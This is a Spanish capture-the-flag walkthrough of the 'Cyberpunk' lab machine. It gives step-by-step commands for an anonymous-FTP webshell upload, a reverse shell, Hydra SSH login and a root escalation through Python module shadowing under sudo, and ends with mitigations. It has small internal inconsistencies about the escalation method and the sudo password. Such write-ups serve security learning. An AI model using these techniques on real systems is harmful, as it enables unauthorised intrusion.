## Información General

| Campo               | Detalle                                  |
| ------------------- | ---------------------------------------- |
| Máquina             | Cyberpunk                                |
| Plataforma          | TheHackersLabs                           |
| IP                  | 192.168.241.173                          |
| Sistema Operativo   | Linux (Debian 12, kernel 6.1.0-20-amd64) |
| Dificultad          | Facil                                    |
| Servicios expuestos | FTP (21), SSH (22), HTTP (80)            |

## Resumen del Ataque

El acceso inicial se logró aprovechando un servidor FTP con login anónimo habilitado, que exponía un archivo `secret.txt` con una pista narrativa y permitía subir archivos. Se subió una webshell PHP (`shell.php`) que, al ser servida por Apache, otorgó ejecución remota de comandos como `www-data`. Tras estabilizar una reverse shell, se encontró en `/opt` un mensaje codificado en Brainfuck que, al decodificarlo, reveló la contraseña del usuario `arasaka`, válida para SSH (confirmada por fuerza bruta dirigida con Hydra). Ya como `arasaka`, un privilegio de `sudo` mal configurado permitía ejecutar un script Python (`randombase64.py`) como root sin contraseña; sobrescribir ese script con código malicioso permitió obtener una shell de root.

## Técnicas Usadas

- Enumeración de puertos y servicios con Nmap
- Acceso FTP anónimo y exfiltración de archivos
- Subida de webshell PHP vía FTP para lograr RCE
- Reverse shell y estabilización de TTY
- Análisis de archivos y decodificación de Brainfuck
- Fuerza bruta de credenciales SSH con Hydra
- Escalada de privilegios vía `sudo` sobre script Python sobrescribible (abuso de ruta de archivo, no GTFOBins clásico)

## Desarrollo

1. **Escaneo de puertos completo** con Nmap para identificar todos los servicios abiertos:

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.173
```



2. **Enumeración de versiones y scripts** sobre los puertos detectados:

```
nmap -p 21,22,80 -sC -sV -oN allports 192.168.241.173
```

El resultado confirma FTP con login anónimo habilitado, un servidor SSH moderno y un servidor web Apache cuyo título ("Arasaka") ya apunta a la temática Cyberpunk de la máquina.

  

3. **Conexión FTP anónima** para explorar el contenido expuesto:

```
ftp 192.168.241.173
```



4. **Listado de archivos** disponibles en el FTP:

```
ftp> ls
```



5. **Lectura de `secret.txt`** vía HTTP, que resultó ser una nota narrativa sin credenciales explotables directamente, pero que confirmó el vector de entrada esperado ("Apache"):

```
http://192.168.241.173/secret.txt
```



6. **Subida de webshell PHP** aprovechando permisos de escritura en el FTP anónimo, ya que el directorio raíz FTP coincide con el docroot de Apache:

```
ftp> put shell.php
```

```
http://192.168.241.173/shell.php
```

7. **Obtención de reverse shell** ejecutando la webshell contra un listener en escucha:

```
nc -lvnp 1234
```



8. **Estabilización de la TTY** para trabajar con una shell interactiva completa:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@Cyberpunk:/$ whoami
```



9. **Intento fallido de `sudo -l`** como `www-data` (no se conocía contraseña válida para este usuario, se descarta esta vía):

```
www-data@Cyberpunk:/home$ sudo -l
```



10. **Enumeración de usuarios con shell válida**, para identificar posibles objetivos de escalada:

```
www-data@Cyberpunk:/home$ grep bash /etc/passwd
```



11. **Búsqueda de binarios SUID**, que no arrojó ningún binario explotable de forma directa (descartada esta vía):

```
www-data@Cyberpunk:/home$ find / -perm -4000 -type f 2>/dev/null
```



12. **Hallazgo de archivo en `/opt`** con contenido sospechoso:

```
www-data@Cyberpunk:/$ cd /opt
www-data@Cyberpunk:/opt$ ls
```



```
www-data@Cyberpunk:/opt$ cat arasaka.txt 
```



13. **Identificación y decodificación de Brainfuck** usando [dcode.fr](https://www.dcode.fr/brainfuck-language), obteniendo la contraseña en texto plano: `cyberpunk2077`.



14. **Validación de la credencial por SSH** contra el usuario `arasaka` mediante Hydra:

```
hydra -l arasaka -p cyberpunk2077 ssh://192.168.241.173 -t 64
```



15. **Acceso SSH como `arasaka`** y captura de la flag de usuario:

```
ssh arasaka@192.168.241.173
```

```
arasaka@Cyberpunk:~$ whoami
```



```
arasaka@Cyberpunk:~$ cat user.txt 
```



16. **Revisión de privilegios `sudo`**, que reveló permiso NOPASSWD... (con contraseña, en realidad) sobre un script Python específico:

```
arasaka@Cyberpunk:~$ sudo -l
```



17. **Inspección del directorio home**, confirmando permisos de escritura sobre el propio directorio y la ausencia de protección adicional sobre el script permitido:

```
arasaka@Cyberpunk:~$ ls -la
```



18. **Análisis del script `randombase64.py`**, que solo codifica en Base64 texto introducido por el usuario:

```
arasaka@Cyberpunk:~$ cat randombase64.py 
```

19. **Creación de un script malicioso con el mismo nombre base** (`base64.py`) en el directorio home, aprovechando que Python resuelve módulos relativos al directorio de ejecución (shadowing del módulo `base64` importado por el script original):

```
cat > /home/arasaka/base64.py << 'EOF'
import os
os.system("/bin/bash -p")
EOF
```



20. **Ejecución del script permitido vía `sudo`**, que al importar `base64` carga el archivo malicioso local en lugar del módulo estándar, otorgando una shell como root:

```
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```

```
root@Cyberpunk:/home/arasaka# whoami
```



21. **Captura de la flag de root**:

```
root@Cyberpunk:~# cat root.txt 
```



## Lecciones Aprendidas

- El FTP anónimo con permisos de escritura sobre el docroot de un servidor web es una combinación crítica: expone tanto lectura de archivos sensibles como subida de webshells.
- Ocultar credenciales mediante codificaciones "de seguridad por oscuridad" (como Brainfuck) no aporta ninguna protección real una vez que el atacante tiene acceso al sistema de archivos.
- Reutilizar la misma contraseña para el sistema y para servicios expuestos (SSH) elimina cualquier barrera adicional tras la primera fuga de credenciales.
- Conceder `sudo` sobre un script propio del usuario (ubicado en un directorio donde el propio usuario tiene permisos de escritura) es equivalente a otorgar `sudo` sin restricciones, ya sea sobrescribiendo el script directamente o, como en este caso, mediante shadowing de un módulo importado.

## Medidas de Mitigación

- Deshabilitar el acceso FTP anónimo o, si es imprescindible, restringirlo estrictamente a solo lectura y aislarlo del docroot del servidor web.
- Nunca almacenar credenciales en el sistema, ni siquiera ofuscadas; usar gestores de secretos adecuados.
- Aplicar políticas de contraseñas únicas por servicio y por usuario, evitando la reutilización entre sistema operativo y servicios de red.
- Evitar otorgar `sudo` sobre scripts ubicados en directorios escribibles por el propio usuario; si es necesario, los scripts autorizados por `sudoers` deben residir en rutas protegidas (root:root, sin permisos de escritura para el usuario) y evitar importar módulos desde el directorio de ejecución (usar rutas absolutas o `python -I` para modo aislado).


